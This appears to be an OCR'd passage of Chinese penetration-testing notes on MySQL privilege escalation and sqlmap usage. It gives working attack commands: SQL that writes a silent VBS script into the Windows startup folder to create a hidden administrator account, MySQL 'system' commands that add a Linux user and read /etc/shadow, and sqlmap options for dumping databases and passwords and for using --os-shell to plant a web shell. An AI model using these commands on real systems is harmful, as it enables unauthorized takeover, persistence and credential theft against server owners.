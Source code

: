 ```shell
# 原理概述
先通过WebShell连接数据库，通过建立表a将VBS脚本写入表中，然后导入启动项。该脚本仅对中文版有效，如果使用其他语言版本的操作系统，仅需对"C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs"这个脚本进行相应更改。在VBS脚本后面有一个"0"，表示不弹出CMD窗口，以静默模式运行。该方法是在通过UDF提权失败的情况下，将VBS插入启动项中，待系统重启后将自动添加一个用户，
#执行语句	
create table a (cmd text); # 创建一个a表 cmd字段 text是字段类型
insert into a values("set wshshell=createobject(""wscript.shell"") " );# 在a表里插入了一个vbsshell语句

insert into a values("a=wshshell.run(""cmd.exe /c net user xxoo 123123 /add"",0) " );# 用VBSshell执行了一个添加用户的操作

insert into a values("b=wshshell.run(""cmd.exe /c net localgroup administrators xxoo /add"",0) " );# 用VBSshell 执行了将xxoo这个用户，添加到了管理员组
select * from a into outfile "C:\\Documents and Settings\\All Users\\[开始]菜单\\程序\\启动\\a.vbs";	# 最后将a表里面的内容，插入到/写入到 启动项的目录下，并且保存文件名为a.vbs
```



## 补充：Linux下的MySQL提权

```shell
mysql -hlocalhost -uroot -p
system useradd hacker
system passwd hacker
system tail -l /etc/passwd
system tail -l /etc/shadow
```



## 24-说说SQLmap

```shell
1-SQLmap 是最强大的注入工具，没有之一，几乎所有的数据库都可以注入
# 关键函数
	--is-dba 								#当前用户权限（是否为root权限，mssql下最高权限为sa）
	--dbs									#所有数据库
	--current-db							#网站当前数据库
	--users 								#所有数据库用户
	--current-user 							#当前数据库用户
	--random-agent 							#构造随机user-agent
	--passwords 							#数据库密码
	--proxy http://local:8080 –threads 10   #(可以自定义线程加速) 代理
	--time-sec=TIMESEC DBMS					#响应的延迟时间（默认为5秒
	--threads=                       		#使用多少线程
	--batch									#自动化选择
# Cookie注入
	sqlmap.py -u "http://www.xxx.com?id=1注入点" --cookie="cookie值" --current-db  
# POST注入
	sqlmap -r “数据包地址” -p “需要制定的参数” –dbms 需要制定的数据类型
# GET注入
	sqomap -u “注入点地址” --dbs 跟上你需要的参数
# sqlmap进行交互式写shell
	1-前提条件：最高权限、知道web网站绝对路径、能获取到cookie
	2-    sqlmap.py -u "注入点地址" --cookie="cookie值" --os-shell
		2.1-echo “一句话木马”>网站的绝对路径
	3- 输入web网站的绝对路径
	4-传木马
	
```
